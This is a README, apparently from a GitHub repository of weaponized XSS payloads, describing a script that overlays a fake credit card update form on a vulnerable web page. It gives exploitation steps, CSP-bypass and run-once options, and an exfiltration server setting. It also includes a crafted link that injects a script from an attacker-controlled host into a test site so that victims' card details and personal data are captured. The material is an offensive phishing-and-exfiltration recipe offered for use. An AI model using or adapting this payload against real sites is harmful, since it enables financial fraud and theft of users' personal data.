 # [unauthn] Credit Card Update Form (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays a Credit Card Update popup form. If blended in the application's context sufficiently, once they encounter such a prompt, most users have a (proven) tendency to blindly provide it requested information (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * B2C website
    * web shop
    * web support
    * public web
  * **NOTE**: if possible, leverage additional available functionality of the target web application to make the popup form appear (even) more convincing (e.g. using JavaScript, open the chat widget and display an appropriate phishing message to the victim user and display the form afterwards)

The payload (`ccphish.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Test Environment

### Web Browsers (20250806)

* [x] Mozilla Firefox 141.0.2 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 138.0.3351.121 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] adapt to target environment

    * change logo (image + displayed dimensions)
    * modify CSS (scenario-dependent)

3. [setup exploit] change payload variable values (`ccphish.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

4. [setup exploit] setup web server (to serve the payload/redirector)

5. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/ccphish.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user provides requested information

    *(attacker obtains PII data)*

7. [post exploit] attacker leverages obtained PII data

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8d47b495-6fef-4059-b3dc-aaa31655a748
